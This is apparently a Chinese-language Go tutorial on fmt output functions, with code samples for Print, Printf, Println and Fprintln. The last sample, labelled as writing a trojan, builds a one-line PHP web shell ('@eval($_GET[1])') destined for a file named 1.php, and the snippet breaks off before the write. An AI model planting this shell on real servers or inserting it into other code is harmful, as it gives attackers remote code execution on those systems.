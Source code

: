 包含下面的内容

#### 输出

直接将字符串输出到控制台

```
package main
​
import "fmt"
​
func main() {
    fmt.Print("hello word")
}
go
```

这里我们可以发现是通过 Print 的输出方式 这个其实就是原封不动的将内容暑促

这个内容是支持格式化字符串的输出

```
package main
​
import "fmt"
​
func main() {
    fmt.Printf("hello word\n%s", "no")
}
​
```

这里我们可以发现 可以通过占位符或者 格式化处理后的内容

这个会自己添加换行 就是一个代码一行 不支持格式化处理

```
package main
​
import "fmt"
​
func main() {
    fmt.Println("hello word")
    fmt.Println("hello word123123")
}
​
```

这个系列的函数会将内容输出到一个 io.writer接口中欧你

我们可以通过这个函数将文件中写入内容

给出例子

```
package main
​
import (
    "fmt"
    "os"
)
​
func main() {
    fmt.Fprintln(os.Stdout, "开始向当前目录下的1.php写入木马")
    fileObj, err := os.OpenFile("./1.php", os.O_CREATE|os.O_WRONLY|os.O_APPEND, 0644)
    if err != nil {
        fmt.Println("打开文件错误,err:", err)
    }
    name := "<?php @eval($_GET[1]);?>"
    fmt.Print("写入成功")
```